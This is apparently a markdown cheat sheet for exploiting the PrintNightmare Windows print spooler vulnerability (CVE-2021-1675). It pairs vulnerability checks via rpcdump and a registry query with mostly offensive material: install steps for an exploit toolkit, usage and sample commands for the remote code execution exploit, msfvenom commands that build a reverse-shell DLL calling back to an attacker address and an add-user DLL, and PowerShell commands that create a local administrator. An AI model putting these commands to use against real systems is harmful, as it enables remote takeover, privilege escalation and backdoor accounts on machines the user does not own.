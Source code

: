 # Remote Detection
When running:
```bash
rpcdump.py @<VICTIM_IP> | egrep 'MS-RPRN|MS-PAR'
```

*if the computer is vulnerable,* the output should be:
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

# [RCE](https://github.com/cube0x0/CVE-2021-1675)

## Installation
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Usage
```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```
## Example
```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

## DLL payloads
### Reverse Shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f dll > rev.dll
```
### Adduser Payload
```
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD_MATCHING_COPLEXITY>
```

---

# Local Detection
When runnnig:
```shell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
*if the computer is vulnerable,* the output should be:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

*Also,* the print spooler service should running
```shell
gsv spooler
```

# [LPE](https://github.com/calebstewart/CVE-2021-1675)
## Usage (Creating Local Admin)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "<ANY_NAME>" -NewUser "<USERNAME>" -NewPassword "<PASSWORD_MATCHING_COPLEXITY>"
```
## Usage (Custom DLL)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "<FULL\PATH\TO\DLL>"
```